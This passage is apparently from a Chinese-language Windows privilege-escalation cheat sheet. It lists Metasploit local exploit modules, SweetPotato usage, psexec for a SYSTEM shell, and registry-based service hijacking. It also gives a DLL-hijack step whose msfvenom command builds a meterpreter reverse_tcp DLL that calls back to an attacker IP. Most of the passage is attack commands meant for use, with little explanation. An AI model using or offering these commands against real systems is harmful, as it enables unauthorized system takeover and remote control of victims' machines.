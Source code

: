 ```
其他提权模块：
exploit/windows/local/unquoted_service_path
set session 1
Exploit -j
​
use exploit/windows/local/service_permissions
set sessions 1
run
​
use exploit/windows/local/always_install_elevated
set sessions 1
run
```

##### 2.3 烂土豆提权提权

**适用版本：**Windows 7、8、10、2008、2012

```
SweetPotato.exe -a whoami
```

##### 2.4 DLL劫持提权

使用msf生成一个DLL，替换掉应用的dll，等待应用重启（需要提前在本地测试）

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.115.34 LPORT=35650 -f dll
```

##### 2.5 令牌窃取提权

拿到session用meterpreter模块

#### 3.psexec提权

win2003&win2008

```
psexec.exe -accepteula -s -i -d cmd.exe
开启的cmd窗口也是system权限
```

#### 4.注册表提权

用accesschk.exe检测regsvc注册表可以知道当前用户权限发现是可修改的

通过修改注册表路径指向我们的反弹文件然后获得一个更高权限

```
修改格式为:reg add KeyName /v EntryName /t DataType /d value /f

Keyname=具体的注册表路径比如这里的HKLM\SYSTEM\CurrentControlSet\Services\regsvc

/v =指定要添加到指定子项下的名称

/t=数据类型这里的REG_EXPAND_SZ意思是长度可变的数据字符串。

/d=指定新注册表项的值

/f=不用询问信息而直接添加子项
```
